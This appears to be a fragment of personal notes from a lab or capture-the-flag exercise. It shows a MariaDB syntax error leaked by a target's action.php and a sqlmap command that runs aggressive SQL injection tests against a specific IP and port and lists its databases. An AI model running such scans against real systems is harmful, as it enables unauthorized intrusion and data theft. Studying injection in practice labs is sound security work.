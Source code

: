 ___

![[Pasted image 20240928195054.png]]

![[Pasted image 20240928195102.png]]

SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ' 726, 1, 10, 0)' at line 1

```bash
sqlmap -u "http://94.237.56.229:56872/action.php" --data='{"id":1}' --method POST --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

